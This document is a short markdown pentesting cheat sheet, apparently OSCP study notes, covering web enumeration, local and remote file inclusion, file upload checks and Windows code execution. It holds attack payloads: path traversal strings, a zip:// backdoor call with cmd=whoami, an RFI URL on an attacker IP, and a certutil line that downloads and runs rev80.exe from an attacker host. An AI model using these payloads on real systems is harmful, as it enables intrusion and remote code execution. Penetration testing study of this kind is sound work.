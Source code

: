 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)

# Checklist
- [ ] NMAP scripts
  -  nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] View Source Code
- [ ] Gobuster
  - admin portal?
  - file upload vuln?
  - plugin page?
- [ ] wfuzz
- [ ] Check README
- [ ] Did we run exiftool against anything found?
- [ ] DNS enumeration
- [ ] Authentication: cewl -d 2 -m 4 http://10.129.200.170/nibbleblog/
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] SQLi
  - Try injecting a single quote(')
  - Try injecting %27



# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```

